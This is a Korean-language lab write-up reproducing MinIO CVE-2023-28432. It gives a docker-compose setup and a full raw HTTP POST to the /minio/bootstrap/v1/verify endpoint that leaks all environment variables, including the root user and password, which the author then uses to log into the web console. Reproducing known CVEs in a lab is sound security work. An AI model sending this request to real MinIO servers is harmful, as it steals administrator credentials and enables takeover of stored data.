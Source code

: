 # MinIO Information Disclosure in Cluster Deployment (CVE-2023-28432)
---
**Contributor**
- [이준호(B1ackCat)](https://github.com/B1ackCat)

MinIO는 GNU affero General Public License v3.0에 따라 출시된 고성능 개체 스토리지입니다.

`RELEASE.2023-03-20T20-16-18Z` 이전 버전에서는 MinIO가 클러스터 모드로 배포되는 경우 정보 공개 취약점이 있습니다. 공격자는 HTTP 요청을 사용하여 MINIO_SECRET_KEY, MINIO_ROOT_PASSWORD를 포함한 대상 프로세스의 모든 환경 변수를 얻을 수 있습니다.

# Vulnerable Enviroment
---
다음 명령을 실행하여 MinIO 클러스터를 시작합니다.
```docker-compose up -d```
클러스터가 시작된 후, `http://your-ip:9001` 의 웹 콘솔, `http://your-ip:9000`의 API 서버를 탐색할 수 있습니다.

# Vulnerability Reproduce
---
API endpoint `http://your-ip/minio/bootstrap/v1/verify`에 문제가 있습니다. 모든 환경 변수를 검색하라는 요청을 보냅니다.
```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
![[1.png]]
`MINIO_ROOT_USER`, `MINIO_ROOT_PASSWORD`가 노출되어 있는 것을 확인할 수 있습니다.

이 사용자 이름과 비밀번호를 이용하여 웹 콘솔에 로그인하는 데 성공했습니다.
![[2.png]]
